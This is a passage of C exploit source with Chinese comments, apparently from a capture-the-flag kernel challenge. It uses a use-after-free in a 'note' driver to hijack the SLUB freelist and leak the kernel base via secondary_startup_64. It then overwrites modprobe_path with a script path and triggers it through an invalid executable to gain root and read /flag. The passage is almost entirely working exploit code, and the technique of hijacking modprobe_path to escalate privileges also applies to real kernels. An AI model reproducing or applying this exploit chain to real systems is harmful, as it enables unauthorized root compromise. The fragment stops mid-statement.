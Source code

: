 ```c
    // 这是因为freelist上得地址必须合法，我们将0x9d000-0x10的地方入freelist，它的next就会为0.合法
    data.content[0] = page_offset_base + 0x9d000 - 0x10;
    data.offset = 0;
    data.size = 8;

    // 劫持freelist的fd，申请两次
    note_read(dev_fd[1], &data);
    note_add(dev_fd[1], &data);
    note_add(dev_fd[1], &data);

    // 打印内容，查看是否获得secondary_startup_64函数的地址
    data.size = 0x40;
    note_write(dev_fd[1], &data);
    if ((data.content[2] & 0xfff) != (SECONDARY_STARTUP_64 & 0xfff))
    {
        error("Invalid data leak: 0x%llx.", data.content[2]);
        err_exit("Failed to HIT page_offset_base, try again!");
    }

    
    // 若获得，则可以通过该函数地址计算出内核基地址
    kernel_offset = data.content[2] - SECONDARY_STARTUP_64;
    kernel_base += kernel_offset;

    success("Kernel Offset: 0x%llx.", kernel_offset);
    success("Kernel Base: 0x%llx.", kernel_base);

    /**
     * Step1: 劫持modprobe_path
     */

    info("Making UAF again and hijacking modprobe_path...");

    // 由于刚刚让freelist中的obj指向0，因此再次add可以重新整一个slub page上来
    note_add(dev_fd[1], &data);
    close(dev_fd[1]);

    // 指向modprobe_path - 0x10，使得挂入freelist的地址合法
    data.content[0] = kernel_offset + MODPROBE_PATH - 0x10;
    data.offset = 0;
    data.size = 0x8;

    info("Hijacking freelist...");
    note_read(dev_fd[2], &data);
    note_add(dev_fd[2], &data);
    note_add(dev_fd[2], &data);

    // 往申请到的modprobe_path写我们的恶意脚本路径
    strcpy(&data.content[2], ROOT_SCRIPT_PATH);
    data.size = 0x30;
    note_read(dev_fd[2], &data);

    // 执行不合法的文件，触发call_modprobe
    info("Triggering fake modprobe_path...");
    system("echo -e '\\xff\\xff\\xff\\xff' > /home/fake");
    system("chmod +x /home/fake");
    system("/home/fake");

    memset(flag, 0, sizeof(flag));

    // 打开flag并读取，完结撒花
    flag_fd = open("/flag", O_RDWR);
    if (flag_fd < 0)
```